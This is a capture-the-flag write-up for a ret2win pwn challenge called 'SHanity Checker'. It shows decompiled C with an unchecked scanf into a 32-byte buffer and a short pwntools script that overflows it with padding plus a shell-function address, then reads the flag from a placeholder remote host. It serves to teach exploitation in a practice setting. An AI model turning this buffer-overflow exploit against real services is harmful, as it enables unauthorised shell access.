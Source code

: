 # [Pwn] SHanity Checker

## ✨ Walkthrough

**Information about the Binary**

![img](../images/pwn_0_0.png)

Buffer overflow vulnerability.

```c
undefined8 main(void)

{
  undefined buffer [32];
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  printf("Hello, whats your name?\n>> ");
  __isoc99_scanf(&DAT_00402020,buffer);
  return 0;
}
```

The binary has a function that will call the shell. *ret2win chal*.

![img](../images/pwn_0_1.png)

We can utilise [pwntools](https://github.com/Gallopsled/pwntools) for the exploitation.

```py
from pwn import *
elf = context.binary = ELF("./chal", checksec=False)

# p = process('./chal')
p = remote("IP_ADDR", 5007)

binsh = p64(elf.symbols.FUN_00401174)
payload = b'A'*0x28 + binsh

p.sendlineafter(b'Hello, whats your name?', payload)
p.sendline(b'cat flag.txt')

flag = p.recvall(timeout=1).strip()
print(flag.decode())

p.close()
```

For the payload, we will insert the padding first to fill the buffer and then followed by the `FUN_00401174` address to overwrite the RIP (*instruction pointer*) so that the programme will execute the function, hence giving us the access to the shell.

![img](../images/pwn_0_2.png)